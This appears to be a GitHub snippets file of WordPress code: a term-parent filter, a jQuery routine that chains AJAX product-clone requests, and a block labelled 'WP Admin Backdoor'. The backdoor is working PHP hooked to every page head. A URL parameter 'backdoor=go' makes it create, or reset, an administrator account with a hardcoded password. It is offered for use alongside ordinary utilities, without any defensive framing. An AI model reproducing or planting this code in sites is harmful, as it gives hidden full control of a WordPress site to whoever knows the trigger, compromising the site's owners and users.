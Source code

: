 # Snippets
	/**
	* Updating parent on term edit screen
	*/
	add_filter('wp_update_term_parent','test_func',10,5);
	function test_func($parent, $term_id, $taxonomy, $parsed_args, $args) {
		$parent = 19;
		return $parent;
	}
	
	/**
	* WP Admin Backdoor
	*/
	add_action('wp_head', 'WordPress_backdoor');
	function WordPress_backdoor() {
	    If ($_GET['backdoor'] == 'go') {
		require('wp-includes/registration.php');
		require('wp-includes/pluggable.php');
		If (!username_exists('backdooradmin')) {
		    $user_id = wp_create_user('backdooradmin', 'Pa55W0rd');
		    $user = new WP_User($user_id);
		    $user->set_role('administrator');
		}else{
		    $user = get_user_by( 'login', 'backdooradmin' );
		    wp_set_password('Pa55W0rd', $user->ID);
		}
	    }
	}
	
	/*
	* AJAX Requests one after another
	*/
	
	jQuery(document).ready(function(){

	var productsjson = jQuery.parseJSON(ajax_object.shop_products);
    	current = 0;

	    //declare your function to run AJAX requests
	    function ajax_clone_bas_products() {
		//check to make sure there are more requests to make
		if (current < productsjson.length) {

			var data = {
				'action': 'clone_bas_products',
				'productid': productsjson[current]
			};

			jQuery.post(ajax_object.ajax_url, data, function(response) {
				if(response) {
			   		console.log(response);
					current++;
					ajax_clone_bas_products();
			   	}
			});
	        }
    	}

	    //run the AJAX function for the first time once `document.ready` fires
    	ajax_clone_bas_products();

	});
